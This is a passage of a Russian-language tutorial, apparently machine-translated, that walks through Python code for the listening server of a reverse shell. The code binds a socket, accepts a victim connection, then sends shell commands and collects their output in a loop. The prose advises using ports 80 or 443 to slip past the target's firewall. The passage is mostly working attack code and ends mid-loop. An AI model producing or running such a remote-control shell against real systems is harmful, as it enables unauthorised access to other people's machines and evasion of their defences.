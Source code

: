 Затем мы указали некоторые переменные и инициировали TCP-сокет. Обратите внимание, что я использовал 5003 в качестве TCP-порта, не стесняйтесь выбирать любой порт выше 1024; просто убедитесь, что он не используется, и вы должны использовать его с обеих сторон (т. Е. Сервер и клиент).

Однако вредоносные обратные оболочки обычно используют популярный порт 80 (т.е. HTTP) или 443 (т.е. HTTPS), это позволит ему обойти ограничения брандмауэра целевого клиента, не стесняйтесь менять его и пробовать!

Теперь давайте привяжем этот сокет, который мы только что создали, к нашему IP-адресу и порту:

# bind the socket to all IP addresses of this host
s.bind((SERVER_HOST, SERVER_PORT))
Связанные с: Создание более 35 этических хакерских скриптов и инструментов с помощью Python EBook

Прослушивание соединений:

s.listen(5)
print(f"Listening as {SERVER_HOST}:{SERVER_PORT} ...")
Если какой-либо клиент попытается подключиться к серверу, нам нужно принять его:

# accept any connections attempted
client_socket, client_address = s.accept()
print(f"{client_address[0]}:{client_address[1]} Connected!")
Функция accept() ожидает входящего соединения и возвращает новый сокет, представляющий соединение (client_socket) и адрес (IP и порт) клиента.

Теперь приведенный ниже код будет выполняться только в том случае, если пользователь подключен к серверу; получим сообщение от клиента, содержащее текущий рабочий каталог клиента:

# receiving the current working directory of the client
cwd = client_socket.recv(BUFFER_SIZE).decode()
print("[+] Current working directory:", cwd)
Обратите внимание, что перед отправкой нам нужно закодировать сообщение в байты, и мы должны отправить сообщение, используя client_socket, а не сокет сервера.

Теперь давайте начнем наш основной цикл, который отправляет команды оболочки и извлекает результаты, а также печатает их:

while True:
    # get the command from prompt
    command = input(f"{cwd} $> ")
    if not command.strip():
        # empty command
        continue
    # send the command to the client
    client_socket.send(command.encode())
    if command.lower() == "exit":
        # if the command is exit, just break out of the loop
        break
    # retrieve command results
    output = client_socket.recv(BUFFER_SIZE).decode()
    # split command output and current directory
    results, cwd = output.split(SEPARATOR)